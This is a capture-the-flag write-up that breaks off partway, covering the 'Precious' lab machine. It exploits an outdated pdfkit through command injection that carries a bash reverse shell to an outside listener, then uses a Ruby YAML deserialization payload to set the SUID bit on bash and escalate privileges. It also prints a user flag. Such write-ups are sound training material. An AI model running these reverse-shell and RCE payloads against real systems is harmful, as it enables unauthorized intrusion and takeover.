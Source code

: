 # Precious
> Write-up author: jon-brandy
## DESCRIPTION:
- NONE
## HINT:
- NONE
## STEPS:
1. First, scan all open ports and it's services from the host given.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211276690-4fe354b9-3638-442c-9480-5805e5c76317.png)


2. Notice the machines seems running a web application, let's open the host on the web browser.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211276928-1b29c212-2439-47e0-bb58-720df75f81ff.png)


3. Let's enter `http://google.com`.

> RESULT


![image](https://user-images.githubusercontent.com/70703371/211277475-e4846599-d902-479b-b914-f14759cebfd4.png)


4. Already tried to enter my own ip but didn't get any pdf.
5. Let's serve http on port 8000 first.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211278408-539b23c8-4444-4b66-b25c-523dbc65ae6c.png)


![image](https://user-images.githubusercontent.com/70703371/211278442-8bd11666-3bf6-4d31-9e18-6631343ef3ca.png)


6. Great! We got it.
7. Check the meta data, to see if we can grab any clue.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211278752-fed9eaf3-6a3e-4eba-9701-42d0d4a7db02.png)


8. Notice the version of pdfkit is outdated and it's vulnerable.

> WRITTEN IN CVE MITRE

```
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-25765
```

9. Hence i did a small outsource about the approach they used for this vuln, found this link.

```
https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795
```

![image](https://user-images.githubusercontent.com/70703371/211280009-f3ea6bd2-9dcb-4218-9a6c-21564f5b39a0.png)


10. Let's use this payload.

![image](https://user-images.githubusercontent.com/70703371/211281122-658a8d9e-aeef-4b09-9790-90346f7bc779.png)


![image](https://user-images.githubusercontent.com/70703371/211281160-fc388b59-a2b1-4090-ae7c-4f14b5cbe665.png)



11. But change the "sleep" to this:

> REVERSE SHELL FOR BASH

```
bash -c 'exec bash -i &>/dev/tcp/10.10.14.12/443 <&1'
```

> FULL PAYLOAD

```
http://10.10.14.12:8000/?name=#{'%20`bash -c 'exec bash -i &>/dev/tcp/10.10.14.12/443 <&1'`'}
```

12. Set a listener using pwncat for port 443 because we use it on the payload, then submit the payload.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211281893-6d255475-b83c-4d5a-a4b4-95e1dca8bb68.png)


13. Nice, got the shell!

![image](https://user-images.githubusercontent.com/70703371/211282031-5b3733aa-a97b-43d1-ba4f-bdd2c5a8d20a.png)


14. Since we're not root, let's find the **user** flag.
15. Actually it took a while for me, i didn't find the user flag, but when i found a cred.

> CRED

![image](https://user-images.githubusercontent.com/70703371/211282795-4ac4805d-0d06-479e-a546-b724ade8623b.png)


![image](https://user-images.githubusercontent.com/70703371/211282841-1ab9201b-0882-42dc-b3db-a58d6251d0bb.png)


![image](https://user-images.githubusercontent.com/70703371/211282892-0983fd9a-a908-4ded-81a6-fd7d9c1e4aed.png)


16. Let's try login to henry with ssh.

> LOGGED IN

![image](https://user-images.githubusercontent.com/70703371/211283134-5b91c51d-bac1-4347-b43c-a4b5accd3f04.png)


![image](https://user-images.githubusercontent.com/70703371/211283181-d5f3768e-9de6-4663-8da5-1e92a3a7d620.png)


![image](https://user-images.githubusercontent.com/70703371/211283211-6ab3fdc2-86c6-4b6d-8e9f-0fe35035fc81.png)


17. Got the user flag.

## FLAG

```
3e73f31984a909e91e2952956243e048
```

18. Now for the root flag, we need to do privilege escalation.

![image](https://user-images.githubusercontent.com/70703371/211283528-aa43f568-2da8-4446-8dd2-9f03df4ef2f8.png)


![image](https://user-images.githubusercontent.com/70703371/211283681-9058d08a-0cb8-476d-85b1-a0ed887b1b1f.png)


![image](https://user-images.githubusercontent.com/70703371/211283919-d9f6f185-50df-428a-93cd-c0ea01e8b8e3.png)


19. Got a clue here:

![image](https://user-images.githubusercontent.com/70703371/211284959-72f6a994-de97-43dc-bdb6-7ddde19ab333.png)


20. Maybe we can do RCE through YAML upload file.
21. I did a small outsource about this yaml exploit. Turns out find [this](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/) website and there's a ruby script to do RCE.

> THE SCRIPT

```rb
 ---
 - !ruby/object:Gem::Installer
     i: x
 - !ruby/object:Gem::SpecFetcher
     i: y
 - !ruby/object:Gem::Requirement
   requirements:
     !ruby/object:Gem::Package::TarReader
     io: &1 !ruby/object:Net::BufferedIO
       io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
       debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
              sets: !ruby/object:Net::WriteAdapter
                  socket: !ruby/module 'Kernel'
                  method_id: :system
              git_set: sleep 600
          method_id: :resolve 
```

22. Change the git_set value to `chmod u+s bin/bash`.

```rb
 ---
 - !ruby/object:Gem::Installer
     i: x
 - !ruby/object:Gem::SpecFetcher
     i: y
 - !ruby/object:Gem::Requirement
   requirements:
     !ruby/object:Gem::Package::TarReader
     io: &1 !ruby/object:Net::BufferedIO
       io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
       debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
              sets: !ruby/object:Net::WriteAdapter
                  socket: !ruby/module 'Kernel'
                  method_id: :system
              git_set: chmod u+s bin/bash
          method_id: :resolve 
```

23. Now make a new file named `dependencies.yml` then paste the script inside it. Next. 
